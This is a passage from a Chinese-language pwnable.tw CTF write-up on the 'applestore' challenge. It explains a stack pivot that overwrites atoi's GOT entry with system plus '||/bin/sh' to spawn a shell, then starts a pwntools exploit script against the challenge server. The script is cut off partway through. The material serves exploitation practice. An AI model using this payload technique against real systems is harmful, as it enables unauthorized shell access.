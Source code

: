 这里的ebp指的是delete函数中ebp寄存器中存储的值，在delete调用结束之后，通过leave指令，将该值pop到handler函数的ebp寄存器中。

挟持got

回到handler函数

![image-20220424153910497](pwnabletw.assets/image-20220424153910497.png)

此时nptr地址为ebp-0x22，也就是got['atoi']+0x22-0x22 = got['atoi']。

之后调用my_read对nptr进行写入，就是直接对got表中的atoi函数地址进行写入。

```
system_addr = libc_addr + elf_libc.symbols['system']
payload3 = p32(system_addr)+'||/bin/sh\x00'
```

写入payload3，调用atoi时直接将nptr内容作为参数进行调用，getshell

exp

```python
from pwn import *

context(arch="i386",os="linux",log_level="debug")

elf = context.binary = ELF('./applestore')

#elf_libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
#io = process('./applestore')

elf_libc = ELF('libc_32.so.6')
io = remote('chall.pwnable.tw', 10104)

def add(id):
	io.recvuntil('> ')
	io.send(str(2))
	io.recvuntil('Device Number> ')
	io.send(str(id))

def delete(id):
	io.recvuntil('> ')
	io.send(str(3))
	io.recvuntil('Item Number> ')
	io.send(id)

def cart(id):
	io.recvuntil('> ')
	io.send(str(4))
	io.recvuntil('Let me check your cart. ok? (y/n) > ')
	io.send(id)

def checkout():
	io.recvuntil('> ')
	io.send(str(5))
	io.recvuntil('Let me check your cart. ok? (y/n) > ')
```